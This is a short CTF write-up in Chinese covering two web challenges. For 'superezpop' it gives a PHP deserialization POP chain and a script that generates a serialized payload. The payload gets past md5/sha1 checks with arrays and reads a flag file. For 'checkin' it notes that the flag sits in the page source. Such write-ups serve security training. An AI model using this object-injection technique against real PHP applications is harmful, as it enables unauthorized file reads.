

## 4.3

#### superezpop

```
逆推：Read.filename->Read.__invoke->Login.__get->Login.point->User.__wakeup->User.__construct->User.username&User.password
```

```php
<?php
class User{
    public $username;
    public $password;
    public $variable;
    public $a;
    
    public function __construct()
    {
        $this->username = array(1,2,3);
        $this->password = array(1,2,3,4);
        $this->variable = new Login();
        $this->variable->point = new Read();
        $this->variable->point->filename = "flag";
    }

    public function __wakeup(){
        if( ($this->username != $this->password) && (md5($this->username) === md5($this->password)) && (sha1($this->username)=== sha1($this->password)) ){
            echo "wuhu!";
            return $this->variable->xxx;
        }else{
            die("o^o");
        }
    }
}
class Login{
    public $point;
    
    public function __get($key){
        $func = $this->point;
        return $func();
    }    

}

class Read{
    public $filename;
    
    public function __invoke(){
        echo file_get_contents($this->filename.".php");
    }
}

$x = new User();
var_dump(serialize($x));

?>
```

传参得到flag：

#### checkin

进入页面：

这是一个正常页面，只是内容为404；信息泄露，在前端源代码中有着flag：